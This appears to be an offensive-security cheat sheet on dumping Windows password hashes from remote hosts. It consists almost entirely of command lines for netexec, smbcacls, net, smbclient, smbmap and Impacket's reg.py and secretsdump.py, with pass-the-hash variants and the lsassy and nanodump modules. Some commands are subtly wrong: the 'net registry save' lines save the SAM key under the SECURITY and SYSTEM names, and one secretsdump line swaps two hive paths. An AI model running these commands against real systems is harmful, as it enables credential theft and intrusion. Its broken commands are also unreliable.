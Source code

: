 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #network-protocols #msrpc #smb #staying-off-the-land #windows

## 01 - Manual Hashdump

### 1.1 - Search hive files

#### 1.1.1 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"

$ netexec smb <IP> -u <username> -H <nt_hash> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"
```

### 1.2 - Enumerate hive files

Using `smbcacls` to enumerate the existing files.

```
$ cat hive_files.txt
/Windows/System32/config/SAM
/Windows/System32/config/SECURITY
/Windows/System32/config/SYSTEM
/Windows/Repair/SAM
/Windows/Repair/SYSTEM

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>%<password>" //<IP>/C$ $line 2>/dev/null; done < hive_files.txt

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ $line 2>/dev/null; done < hive_files.txt
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls /Windows/System32/config/SAM

smb: \> ls /Windows/System32/config/SECURITY

smb: \> ls /Windows/System32/config/SYSTEM
```

### 1.3 - Extract hive files

#### 1.3.1 - MSRPC Network Protocol

##### 1.3.1.1 - `net`

```
$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SECURITY" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SYSTEM" -U "[<domain>/]<username>%<password>" -S <IP>
```

Pass The Hash

```
$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SECURITY" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SYSTEM" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

##### 1.3.1.2 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SAM" -o "\\\\<IP>\\c$\\windows\\temp\\"

$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SECURITY" -o "\\\\<IP>\\c$\\windows\\temp\\"

$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SYSTEM" -o "\\\\<IP>\\c$\\windows\\temp\\"
```

#### 1.3.2 - SMB Network Protocol

##### 1.3.2.1 - `smbclient`

TODO: Modify the permissions with `smbcacls` in order to download them

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ -c "get /Windows/System32/config/SAM; get /Windows/System32/config/SECURITY; get /Windows/System32/config/SYSTEM"

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ -c "get /Windows/System32/config/SAM; get /Windows/System32/config/SECURITY; get /Windows/System32/config/SYSTEM"
```

##### 1.3.2.2 - SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SAM"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SECURITY"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SYSTEM"
```

##### 1.3.2.3 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SAM SAM

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SECURITY SECURITY

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SYSTEM SYSTEM
```

### 1.4 - Parse hive files

#### 1.4.1 - Mount Remote SMB

Create a temporary folder for mounting an SMB share.

```
# mkdir /mnt/share
```

Mount SMB share with various authentication methods.

```
# mount -t cifs -o [domain=<domain>,]username=<username>,password=<password>,rw //<IP>/C$ /mnt/share

# smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw

# mount -t cifs -o [domain=<domain>,]username=<username>,password=<nt_hash>,sec=ntlmssp,rw //<IP>/C$ /mnt/share

# mount -t cifs -o sec=krb5,vers=3.0,rw '//<IP>/C$' /mnt/share
```

Harvest the credentials.

```
# secretsdump.py -sam /mnt/share/Windows/System32/config/SAM -system /mnt/share/Windows/System32/config/SYSTEM local

# secretsdump.py -sam /mnt/share/Windows/System32/config/SAM -security /mnt/share/Windows/System32/config/SYSTEM -system /mnt/share/Windows/System32/config/SECURITY local
```

If you have already downloaded the HIVE files. Then parse them with the fields.

```
$ secretsdump.py -sam /path/to/sam_hive_file -system /path/to/system_hive_file local

$ secretsdump.py -sam /path/to/sam_hive_file -security /path/to/security_hive_file -system /path/to/system_hive_file local
```

#### 1.4.2 - Impacket

```
$ secretsdump.py [<domain>/]<username>:<password>@<IP> [-exec-method <smbexec | wmiexec | mmcexec>] -use-remoteSSMethod

$ secretsdump.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-exec-method <smbexec | wmiexec | mmcexec>] -use-remoteSSMethod
```

## 02 - Automated Hashdump

### 2.1 - Impacket

```
$ secretsdump.py [<domain>/]<username>:<password>@<IP> [-exec-method <smbexec | wmiexec | mmcexec>]

$ secretsdump.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-exec-method <smbexec | wmiexec | mmcexec>]
```

### 2.2 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --sam

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --lsa

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M lsassy

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M nanodump
```

---
## References

- [Samdump2](https://salsa.debian.org/pkg-security-team/samdump2)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)